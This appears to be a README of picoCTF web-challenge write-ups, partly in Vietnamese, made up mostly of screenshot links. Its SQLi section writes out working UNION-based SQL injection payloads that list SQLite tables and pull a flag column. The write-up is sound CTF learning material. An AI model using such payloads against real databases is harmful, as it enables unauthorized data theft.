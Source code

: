 # Pico

# 3v@l

![Screenshot 2025-05-06 145459](https://github.com/user-attachments/assets/7341be37-c7dd-452b-9bd5-c16d7c1f9255)

![Screenshot 2025-05-06 145355](https://github.com/user-attachments/assets/c7c3347d-3de3-472a-8d19-29883e1888e6)


# Trickster

![Screenshot 2025-05-06 155332](https://github.com/user-attachments/assets/b1b381bd-837e-408d-be81-cd3efdeac7fe)

![Screenshot 2025-05-06 155403](https://github.com/user-attachments/assets/6f13e065-7c1f-4f66-ab63-f8b5fc0fa6da)

![Screenshot 2025-05-06 155256](https://github.com/user-attachments/assets/ac5c313c-f361-458a-8539-4f0531317528)

![Screenshot 2025-05-06 155535](https://github.com/user-attachments/assets/cf092a89-0610-4e25-b710-7f2a8bd808de)

![Screenshot 2025-05-06 155628](https://github.com/user-attachments/assets/7bc6fb7c-7383-4ff6-a2ee-710ed70c4044)

![Screenshot 2025-05-06 155652](https://github.com/user-attachments/assets/51c486c3-f0db-4f08-b895-2663c972f65a)

![Screenshot 2025-05-06 160930](https://github.com/user-attachments/assets/5728cb41-4208-4af7-8109-5a9f1a6f889b)


# No Sql Injection
![Screenshot 2025-05-06 164913](https://github.com/user-attachments/assets/4b93f124-856c-4681-9027-c002a5ca2cfd)
Base64


# SOAP
![image](https://github.com/user-attachments/assets/66b72268-993f-4abe-a155-b48ce205c653)

![image](https://github.com/user-attachments/assets/e85f7fff-fa60-434e-bf56-02d3efab8184)


# SQLI

![image](https://github.com/user-attachments/assets/85cd66b8-317f-450f-8e67-07690551feda)

Lấy các bảng bằng payload như sau
>a' union select 1,name,3 from sqlite_master where type='table'-- -

![image](https://github.com/user-attachments/assets/f0cc536a-7494-4c2b-99e5-4c918f7ac6ef)

Kiểm tra bảng more_table

>a' union select 1,sql,3 from sqlite_master where name='more_table'-- -

KIểm tra cột flag trong bảng more_table

>a' union select flag,2,3 from more_table-- -

![image](https://github.com/user-attachments/assets/90e55f04-5245-4a7c-a5bf-c5ca3ee1a075)

# MatchTheRegex

![image](https://github.com/user-attachments/assets/c7b34f81-2f2c-437a-b108-c16e5f416f6b)
.*? bắt tất cả các kí tự bất kỳ, số lượng ít nhất cả thể, nghĩa là chỉ lấy } đầu tiên bắt gặp

Nếu không có ? sau * thì nó sẽ khớp tới } cuối cùng trong chuỗi lớn

![image](https://github.com/user-attachments/assets/d3835e3f-9f22-4148-95cf-005ace686b62)
![Screenshot 2025-05-06 183102](https://github.com/user-attachments/assets/6961aae8-79a0-4916-b4e1-49a36da9fb96)










